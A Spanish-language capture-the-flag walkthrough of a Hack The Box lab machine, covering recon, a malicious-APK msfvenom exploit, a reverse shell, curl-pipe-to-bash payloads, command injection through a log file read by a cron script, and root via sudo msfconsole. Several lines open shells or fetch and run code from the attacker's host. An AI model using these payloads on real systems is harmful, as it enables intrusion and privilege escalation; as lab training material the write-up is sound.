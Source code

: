 ## Summary

Tags: 
Y
- IP -> 10.10.10.226
- Ports -> TCP (22, 5000), UDP (idk)
- OS ->  Ubuntu Focal
- Services & Applications
    - 22 -> OpenSSH 8.2p1 Ubuntu 4ubuntu0.1
    - 5000 -> Werkzeug httpd 0.16.1 (python 3.8.5)


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://10.10.10.226:5000** Miramos el gestor de contenidos

Miramos la pagina Web en ese puerto especifico, y encontramos que:
1. En la primer parte se puede ejecutar el comando nmap
2. En la segunda parte de puede ejecutar por detras el comando msfvenom (Windows, Linux y Android)
3. En la tercer parte se podria estar ejecutando el comando searchsploit

- Comando -> **searchsploit msfvenom** Para buscar vulnerabilidades asociadas con msfvenom, y encontramos una que te crea un APK malicioso
- Comando -> **searchsploit -m msfvenom** Nos traemos el exploit **.py** a nuestra maquina, despues lo miramos con **cat** y en una parte del exploit lo modificamos de la siguiente manera en la parte de payload: 
	nvim msfvenom.py
		**payload = 'ping -c 1 10.10.14.17'** Haremos que nos ejecute un ping a nuestra maquina
	
- Comando -> **python3 msfvenom.py** Al momento de ejecutarlo nos crea la aplicacion APK  
- Comando -> **chown omarv:omarv -R /tmp/tmp7/**  Le cambiamos el usuario al directorio del APK creado
El APK lo cargamos en la pagina Web en la parte de browse, antes de ejecutarlo nos ponemos en escucha
- Comando -> **tcpsump -i tun0 icmp -n** Nos ponemos en escucha para trazas icmp y asi recibir el ping y recibimos los ping

Nos damos cuenta que tenemos ejecucion remota de comandos, por lo que nos creamos un archivo asi:
	nvim index.html
		**#!/bin/bash/**
		**bash -i >& /dev/tcp/10.10.14.17/443 0>&1**
- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80, para que nos puedan hacer el curl

Volvemos a modificar el **msfvenom** de la siguiente manera en la parte de payload: 
	nvim msfvenom.py
		**payload = 'curl 10.10.14.17 | bash'** Haremos que nos ejecute un curl a nuestra maquina, el cual buscara el index.html que habiamos creado
	
- Comando -> **python3 msfvenom.py** Al momento de ejecutarlo nos crea la aplicacion APK
- Comando -> **chown omarv:omarv -R /tmp/tmp8/**  Le cambiamos el usuario al directorio del APK creado
El APK lo cargamos en la pagina Web en la parte de browse

- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, para recibir la peticion y nos de una revershell

## User
Una vez dentro tratamos la consola 
Nos creamos una pseudo consola con los siguientes comandos.
 **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
 **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’** Para remplazar lo de arriba por si no nos deja
 **Ctrl + z**
 **stty raw -echo; fg**
 **reset xterm**

Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
**echo $SHELL** Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
**export SHELL=bash** Hacemos que shell ahora valga bash
**export TERM=xterm**

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

Obtenemos acceso a la maquina victima pero estamos como el usuario kid, por lo que buscamos la flag **user.txt**

Encontramos una dir llamado **logs**, el cual tiene los privilegios 777 y contiene un archivo llamado **hackers** el cual no tiene contenido y si le metemos algo este desaparece, por lo que nos descargaremos el **pspy** para detectar los procesos que estan corriendo.

Buscamos en Google pspy (**pspy-monitor Linux Github**), nos dirigimos a los releases y nos descargamos el **pspy64**, el cual se descargara en la carpeta de Downloads.

- Comando -> **chmod +x pspy** Le damos permisos de ejecucion tanto a usuario, grupo y otros
- Comando -> **upx pspy** Para bajarle el peso al archivo
- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80, para que cuando nos hagan un wget puedan cargar el archivo pspy
- Comando -> **wget http:/10.10.14.17/pspy** Para poder cargar un archivo especifico desde una IP, en este caso nuestra IP y nos cargaremos el pspy
En la maquina victima le damos permisos de ejecucion 
- Comando -> **chmod +x pspy** Le damos permisos de ejecucion tanto a usuario, grupo y otros
- Comando -> **./pspy** Ejecutamos el archivo, despues en la pagina web mandamos algo por el campo searchsploit y miramos que sucede

Nos damos cuenta que se esta ajecutando un nmap top 10 open ports, en donde hay un usuario llamado **pwn** que ejecuta un archivo **scanlosers.sh**. Al momento de inspeccionar ese archivo con un **cat**, nos damos cuenta que contine la siguiente:
	nano scanlosers.sh
		#!bin/bash
		log=/home/kids/log/hacker
		cd /home/pwd
		cat $log | cut -d' ' **-f3-** | sort u | while read ip; do
			sh -c "nmap --top-ports 10 -oN reccon/${**ip**}.nmap ${ip} 2>&1 >/dev/null" & 
         done 
         
Podemos que primero usa el archivo **hackers** que habiamos encontrado en el dir log, luego observamos que se mueve de directorio y al archivo hackers le hace un filtro con cut, y despues filtra por el -f3- significa que es el tercer campo, pero tambien nos indica que no solo agarra el tercer argumento que entra, sino que tambien agarra todos los argumentos despues de este, y lo que obtiene es una IP, por lo que ahi podriamos meter codigo para que ese se ejecute. 

Por lo que hacemos lo siguiente:
- **cd /home/kids/logs** Nos metemos al directorio de los log, para modificar el archivo hackers
- **echo "[2022-09-06 20:26:59] 10.10.14.17; ping -c 1 10.10.14.17 #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos hara un ping a nuestra maquina por lo que nos ponemos en escucha. 
- **tcpdump -i tun0 icmp -n** Nos ponemos en escucha para recibir los los icmp
Una vez que miramos que si nos dan los ping, hacemos lo siguiente...

- **echo "[2022-09-06 20:26:59] 10.10.14.17; whoami | nc 10.10.14.17 443 #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos regresara el usuairo de whoami
- **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, todo esto con el fin de probar


- **echo "[2022-09-06 20:26:59] 10.10.14.17; curl 10.10.14.17 443 | bash  #" > hackers** (#=comentar lo que resta de la linea) y al momento de que lo lea el archivo de scanlosers no ejecute la segunda parte de nmap y solo nos aplique el comando. Que en este caso nos hara un curl buscando el archivo index.html el cual ya estamos compartiendo y tiene una revershell

Usaremos el comando que ya habiamos creado:
	nano index.html
		**#!/bin/bash/**
		**bash -i >& /dev/tcp/10.10.14.17/443 0>&1**

- Comando -> **python3 -m http.server 80** Nos compartimos un servidos http por el puerto 80
- **nc -nlvp 443** Nos ponemos en escucha por el puerto 443

Y asi es como se hace el Pivoting al usuario pwd.

## Root

Una vez siendo el usuario Pwn

- Comando -> **sudo -l** Para ver los privilegios de sudoers, y descubrimos que que podemos ejecutar metasploit como el usuario root sin password (root) NO PASSWD : /opt/metasploit-framework-6.0.9/msfconsole

- Comando -> **sudo msfconsole -q** Abrimos el metaesploit como usuario root

Una vez adentro de metasploit 
- Comando -> **irb** Para conseguir una consola interactiva de Ruby
- >**system("whoami")** Podemos ejecutar comandos
- >**system("bash")** Nos da directamente una consola bash 
